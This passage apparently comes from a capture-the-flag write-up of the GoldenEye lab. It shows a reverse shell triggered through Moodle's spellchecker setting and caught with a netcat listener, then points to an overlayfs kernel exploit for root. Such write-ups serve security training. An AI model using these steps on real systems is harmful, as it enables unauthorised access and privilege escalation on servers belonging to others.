 And finally, in the path:

```bash
Site administration -> Courses -> Add/edit courses
```

Then, we click on **Add a new course**, before to execute the reverse shell we need set up a netcat listener and then click on **Toggle spellchecker**.

![](/assets/images/goldeneye/screenshot-18.png)

We got a shell, with the permissions that the moodle platform is running.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.156] 48348
bash: cannot set terminal process group (1141): Inappropriate ioctl for device
bash: no job control in this shell
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Googling I found that this version of the kernel is vulnerable to the overlayfs exploit.

```bash
www-data@ubuntu:/dev/shm$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

## Privilege Escalation
### Kernel Exploit

The issue lies in the ovl_setattr function in fs/overlayfs/inode.c in the Linux kernel through 4.3.3 attempts to merge distinct setattr operations, which allows local users to bypass intended access restrictions and modify the attributes of arbitrary overlay files via a crafted application.

I downloaded the exploit to the attacking machine, in the exploit I modified gcc to cc since the gcc compiler doesn't exist on the target machine, I compiled it and started the apache service, you can download the exploit [here](https://www.exploit-db.com/exploits/37292).

